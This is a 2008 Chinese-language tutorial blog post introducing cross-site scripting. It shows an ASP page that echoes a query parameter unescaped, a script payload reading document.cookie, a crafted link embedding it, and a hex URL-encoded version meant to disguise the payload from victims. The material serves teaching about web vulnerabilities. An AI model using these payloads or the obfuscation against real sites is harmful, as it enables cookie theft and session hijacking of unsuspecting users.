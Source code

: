 ```yaml
---
categories:
- 技术文章
date: '2008-09-06'
title: (原创)攻击方式学习之(1) - 跨站式脚本(Cross-Site Scripting)
url: /2008/09/06/1285500
---
```



<span style="font-size: 14px;"><span style="color: red;">声明：本文仅供学习研究之用，对于本文提到的某些网站的XSS漏洞，请读者发扬高尚的人道主义精神不要去危害他人，同时希望相应的网站能够尽快修补XSS漏洞。</span></span>

### 简介

XSS又叫CSS (Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。

使用过ASP的同学一定见过这样的代码： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;"><span style="color: #ffffff;">Hello</span><span style="color: #ffffff;">,</span> <span style="color: #ffffff;">&amp;</span><span style="color: #ffffff;">nbsp</span><span style="color: #ffffff;">;</span>

<span style="color: #ffffff;">&lt;%</span>

<span style="color: #ffffff;">Response</span><span style="color: #ffffff;">.</span><span style="color: #ffffff;">Write</span><span style="color: #ffffff;">(</span><span style="color: #ffffff;">Request</span><span style="color: #ffffff;">.</span><span style="color: #ffffff;">Querystring</span><span style="color: #ffffff;">(</span><span style="color: #0086d2;">"name"</span><span style="color: #ffffff;">))</span>

<span style="color: #ffffff;">%&gt;</span></div>

假如我传入的name的值为： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;"><span style="color: #ffffff;">&lt;</span><span style="color: #ffffff;">script</span><span style="color: #ffffff;">&gt;</span><span style="color: #ffffff;">x</span><span style="color: #ffffff;">=</span><span style="color: #ffffff;">document</span><span style="color: #ffffff;">.</span><span style="color: #ff0086; font-weight: bold;">cookie</span><span style="color: #ffffff;">;</span><span style="color: #ffffff;">alert</span><span style="color: #ffffff;">(</span><span style="color: #ffffff;">x</span><span style="color: #ffffff;">);&lt;/</span><span style="color: #ffffff;">script</span><span style="color: #ffffff;">&gt;</span></div>

这样就可以直接盗取用户的cookie。所以我就可以发送一条链接地址让别人去点： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;">
http://www.xxx.com/reg.asp?name=&lt;script&gt;x=document.cookie;alert(x);&lt;/script&gt;
</div>

当然这样做没有一点隐蔽性，虽然前面的xxx.com瞒过了少数人，但大多数人可以辨认出后面的javascript代码，所以，我只需要将后面的javascript代码转换成URL的16进制，如： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;">http://www.xxx.com/reg.asp?name=%3C%73%63%72%69%70%74%3E%78%3D%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3B%61%6C%65%72%74%28%78%29%3B%3C%2F%73%63%72%69%70%74%3E</div>
